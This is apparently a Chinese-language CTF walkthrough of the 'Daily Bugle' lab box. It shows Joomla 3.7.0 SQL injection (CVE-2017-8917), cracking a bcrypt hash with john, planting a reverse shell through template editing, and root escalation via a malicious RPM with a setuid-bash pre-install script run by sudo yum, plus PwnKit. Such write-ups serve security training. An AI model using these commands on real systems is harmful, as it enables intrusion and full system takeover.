 # Daily Bugle

通过SQLi破坏Joomla CMS帐户，练习破解哈希并通过利用yum提升您的权限

---

循例，nmap 扫

    22/tcp   open  ssh
    80/tcp   open  http
    3306/tcp open  mysql

在web兜兜转转一番后，能力有限，找不到比较有用的信息

只好通过借助metasploit

<pre><u style="text-decoration-style:single">msf6</u> auxiliary(<font color="#EC0101"><b>scanner/http/joomla_version</b></font>) &gt; run

<font color="#277FFF"><b>[*]</b></font> Server: Apache/2.4.6 (CentOS) PHP/5.6.40
<font color="#47D4B9"><b>[+]</b></font> Joomla version: 3.7.0
</pre>

得知joomla的版本好是3.7.0

CVE-2017-8917

了解了一下这个exp，其实就是存在报错注入并进一步的利用

    Jonah:$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm

john爆破

<pre><font color="#367BF0">┌──(</font><font color="#EC0101"><b>root💀kali</b></font><font color="#367BF0">)-[</font><b>/home/sugobet</b><font color="#367BF0">]</font>
<font color="#367BF0">└─</font><font color="#EC0101"><b>#</b></font> <font color="#5EBDAB">echo</font> <font color="#FEA44C">&apos;$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm&apos;</font> <font color="#277FFF"><b>&gt;</b></font> <u style="text-decoration-style:single">./hash</u> 
                                                                                                   
<font color="#367BF0">┌──(</font><font color="#EC0101"><b>root💀kali</b></font><font color="#367BF0">)-[</font><b>/home/sugobet</b><font color="#367BF0">]</font>
<font color="#367BF0">└─</font><font color="#EC0101"><b>#</b></font> <font color="#5EBDAB">john</font> <font color="#9755B3">--wordlist=/usr/share/wordlists/rockyou.txt</font> <u style="text-decoration-style:single">./hash</u></pre>

爆了近十分钟，爆出来了

    spiderman123

访问/administrator并登录

找了一会，这里可以修改页面php内容，我们将其修改成reverse shell

    /administrator/index.php?option=com_templates&view=template 

成功getshell

<pre>Ncat: Connection from 10.10.232.38.
Ncat: Connection from 10.10.232.38:55966.
bash: no job control in this shell
bash-4.2$ whoami
whoami
apache
</pre>

升级shell，目标主机没有python3，所以用python2

    python -c "import pty;pty.spawn('/bin/bash')"

cat ./configuration.php

这个文件包含了数据库的密码等，这个密码也是jjameson的用户密码

我们可以直接ssh登录

<pre><font color="#367BF0">┌──(</font><font color="#EC0101"><b>root💀kali</b></font><font color="#367BF0">)-[</font><b>/home/sugobet</b><font color="#367BF0">]</font>
<font color="#367BF0">└─</font><font color="#EC0101"><b>#</b></font> <font color="#5EBDAB">ssh</font> jjameson@10.10.232.38      </pre>

sudo -l 发现可以使用yum

我们翻看垃圾桶，然后构造

    gem install fpm
    apt install rpm

<pre><font color="#367BF0">┌──(</font><font color="#EC0101"><b>root💀kali</b></font><font color="#367BF0">)-[</font><b>/home/sugobet</b><font color="#367BF0">]</font>
<font color="#367BF0">└─</font><font color="#EC0101"><b>#</b></font> TF=<font color="#9755B3">$</font><font color="#277FFF"><b>(</b></font><font color="#5EBDAB">mktemp</font> <font color="#9755B3">-d</font><font color="#277FFF"><b>)</b></font>                                                                                                    
<font color="#367BF0">┌──(</font><font color="#EC0101"><b>root💀kali</b></font><font color="#367BF0">)-[</font><b>/home/sugobet</b><font color="#367BF0">]</font>
<font color="#367BF0">└─</font><font color="#EC0101"><b>#</b></font> <font color="#5EBDAB">echo</font> <font color="#FEA44C">&apos;cp /bin/bash /tmp/cmd;chmod +s /tmp/cmd&apos;</font> <font color="#277FFF"><b>&gt;</b></font> $TF/x.sh</pre>
                                                                        
<pre><font color="#367BF0">┌──(</font><font color="#EC0101"><b>root💀kali</b></font><font color="#367BF0">)-[</font><b>/home/sugobet</b><font color="#367BF0">]</font>
<font color="#367BF0">└─</font><font color="#EC0101"><b>#</b></font> <font color="#5EBDAB">fpm</font> <font color="#9755B3">-n</font> x <font color="#9755B3">-s</font> dir <font color="#9755B3">-t</font> rpm <font color="#9755B3">-a</font> all <font color="#9755B3">--before-install</font> $TF/x.sh $TF
Created package {:path=&gt;&quot;x-1.0-1.noarch.rpm&quot;}</pre>

将文件上传到目标：

    scp ./x-1.0-1.noarch.rpm jjameson@10.10.232.38:/home/jjameson

目标上安装：

    [jjameson@dailybugle ~]$ sudo yum localinstall -y x-1.0-1.noarch.rpm 


<pre>jjameson@dailybugle ~]$ /tmp/cmd -p
cmd-4.2# whoami
root
</pre>

成功getroot

提权方法二：

通杀的cve

pwnkit CVE-2021-4034，pkexec利用

<pre>[jjameson@dailybugle ~]$ ./PwnKit 
[root@dailybugle jjameson]# whoami
root
</pre>
